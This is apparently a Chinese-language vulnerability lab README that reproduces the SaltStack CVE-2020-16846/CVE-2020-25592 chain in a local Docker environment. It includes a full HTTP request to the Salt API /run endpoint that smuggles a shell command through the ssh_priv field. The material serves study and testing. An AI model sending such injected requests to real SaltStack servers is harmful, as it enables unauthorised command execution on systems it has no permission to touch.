

# SaltStack 命令注入漏洞（CVE-2020-16846）

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 漏洞环境

执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

通过`ssh_priv`位置注入命令`touch /tmp/success`，进入容器可见已执行成功：


